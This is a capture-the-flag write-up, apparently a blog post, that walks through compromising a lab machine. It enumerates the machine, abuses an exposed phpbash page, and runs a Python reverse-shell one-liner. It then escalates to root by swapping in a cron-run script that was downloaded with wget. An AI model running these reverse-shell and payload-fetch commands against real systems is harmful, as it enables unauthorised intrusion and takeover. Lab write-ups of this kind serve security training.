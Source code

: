 > **map -sC -sV 10.10.10.68**

![](https://miro.medium.com/v2/resize:fit:1050/1*8RAhWDMzIaJmE3BpZxQnaw.png)

Figure 1.2

We found that there is Apache running on the machine let’s explore it from browser:

![](https://miro.medium.com/v2/resize:fit:1050/1*T5bW_y6KZcpzTfECyZaMjw.png)

Figure 1.3

Seems like this is the only page on the website. Let’s enumerate the server with directory buster tool to find either there are hidden web pages or not.

> **dirb** [**http://10.10.10.68**](http://10.10.10.68)

![](https://miro.medium.com/v2/resize:fit:911/1*boqDSZA8Mx3TzLsHExj4Yw.png)

Figure 1.4

We found different folders hosted on server. Ass we know css folder is commonly for css files hosted on server. Let’s Explore /dev/ folder from browser.

![](https://miro.medium.com/v2/resize:fit:926/1*eciLmBu3g9LSoICOBMVFsw.png)

Figure 1.5

Here we find **phpbash** web pages. Let’s Explore theses pages:

![](https://miro.medium.com/v2/resize:fit:1050/1*fmsyNwqojN0O8k62SCGKxg.png)

Figure 1.6

These web pages are giving interface to communicate with the terminal of the server. This means that we can get reverse shell from this webpage by simply executing the script.

## **Gaining Access:**

After searching I found python reverse shell script from [_Pentest Monkey_](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234)); //Change IP and Port  
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Do not run this script blindly. Before running this script modify IP Address with your IP Address and if you like you can also enter your desired port. I have replaced 1234 port with 9999.

Before running above script make sure netcat listener is running on mentioned port.

> **nc -lnvp 9999**

![](https://miro.medium.com/v2/resize:fit:528/1*NCXosDJ0Hqg69bY7H90_DA.png)

Figure 1.7

Now run the above mention script on target machine.

![](https://miro.medium.com/v2/resize:fit:1050/1*LKQc6WEqcC5zp2VjL0YYSA.png)

Figure 1.8

Once you run the script on the web page after a few seconds you will receive reverse connection on your netcat listener as shown in figure 1.9 below:

![](https://miro.medium.com/v2/resize:fit:959/1*DhqSqi84mY9KnfIeY_4KzQ.png)

Figure 1.9

Now after wondering around in directories I have finally found the user flag.

The flag is in **/home/arrexel/** directory as shown in figure 1.11 below:

![](https://miro.medium.com/v2/resize:fit:530/1*wDB2HGafQPG-5HOW-xFRtQ.png)

Figure 1.10

Now to get root user flag we need to be on root user. In order to get to root user we need to escalate the privileges.

## **Privilege Escalation:**

First we to get info of our current privileges and for that we will use command:

> **sudo -l**

![](https://miro.medium.com/v2/resize:fit:1050/1*cjs0FlQoogiETORe4AZi_g.png)

Figure 1.11

This means the www-data user can run commands as scriptmanager user. Let’s try to access scriptmanager account shell from www-data with command given below:

> **sudo -u scriptmanager /bin/bash**

![](https://miro.medium.com/v2/resize:fit:815/1*kTdZwUk2snE8jFkRQv9oEA.png)

Figure 1.12

Use python script for TTY:

> **python -c ‘import pty; pty.spawn(“/bin/bash”);’**

![](https://miro.medium.com/v2/resize:fit:581/1*3cx_GeyvHeu5QpmVYsALAQ.png)

FIgure 1.13

Now we go to base directory and again start exploring to get any new info.

![](https://miro.medium.com/v2/resize:fit:1050/1*0zFGnvRSJsNjc7Ph-js7dg.png)

Figure 1.14

Here we got interesting info. We got a suspicious folder named scripts. Let’s Explore this folder:

![](https://miro.medium.com/v2/resize:fit:846/1*uYJFt20yrjPKUEg4VfXjdQ.png)

Figure 1.15

In this folder we got these two files lets explore both of them:

![](https://miro.medium.com/v2/resize:fit:854/1*3mrl-SgmGa7Pif2UJIXVZg.png)

Figure 1.16

There is a simple script in **‘test.py’** which writes output on file **‘test.txt’**. One more interesting thing we got is that creation time of file test.txt is keep updating to the latest time. This mean there is a cron job or something like background process is running which runs test.py script automatically. If we replace the test.py file with our test.py file containing reverse shell code and check might we can get reverse shell of root user or not.

In order to do that create a HTTP Server using python from the directory where we have saved our reverse shell code.

In order to create a server using python command:

> **python -m SimpleHTTPServer 8000**

![](https://miro.medium.com/v2/resize:fit:744/1*mKrhuu-xLWv7QGmoc2kjbA.png)

Figure 1.17

Now on the other machine shell we will run wget command to download reverse shell code in the machine.

wget http://10.10.14.7:8000/test.py

![](https://miro.medium.com/v2/resize:fit:923/1*1oIAXlmTjsgP3YEoO3DKZA.png)

Figure 1.18

Our file is downloaded with the name of test.py.1, now I removed test.py file and changed the name of test.py.1 file to test.py so machine will run only that file which we want to execute for reverse shell. Code for reverse shell is same as I used at the start of this write-up.

Now turn on your netcat listener and wait a minute to get executeed that test.py file to get reverse shell.

> **nc -nvlp 8888**

![](https://miro.medium.com/v2/resize:fit:732/1*nmewDs4ziavdHBDS8Sfukw.png)

Figure 1.19

After a minute you should receive a reverse shell with root account on this listener as shown in figure 1.20 below:

![](https://miro.medium.com/v2/resize:fit:951/1*T8hE4ZruJIeft11yjM04-Q.png)

Figure 1.20

Here we go we have got root privileges and now go to root directory and get root flag.